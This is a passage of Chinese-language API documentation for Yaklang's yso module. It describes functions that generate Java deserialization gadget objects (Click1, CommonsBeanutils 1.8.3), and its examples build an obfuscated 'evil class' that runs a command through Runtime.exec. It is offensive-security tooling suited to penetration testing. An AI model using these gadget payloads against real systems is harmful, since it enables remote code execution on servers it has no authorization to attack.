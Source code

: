 - `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，失败时返回相应错误

## 示例代码

### 基础用法

生成一个Java对象并配置特定属性

```yaklang
gadgetObj,err = yso.GetClick1JavaObject(yso.useRuntimeExecEvilClass(command), yso.obfuscationClassConstantPool(), yso.evilClassName(className))
```

## 20. `yso.GetCommonsBeanutils183NOCCJavaObject`

## 功能描述

基于Commons Beanutils 1.8.3 序列化模板生成并返回一个Java对象。去除了对 commons-collections:3.1 的依赖。用户可以通过可变参数提供额外的配置，定制生成的Java对象的特定属性或行为。

## 参数说明

```
func GetCommonsBeanutils183NOCCJavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```

**请求参数**

- `options` : 用于配置Java对象的可变参数函数列表

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，成功时为nil错误，失败时返回相应错误

## 示例代码

### 基础用法

示例代码

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetCommonsBeanutils183NOCCJavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```
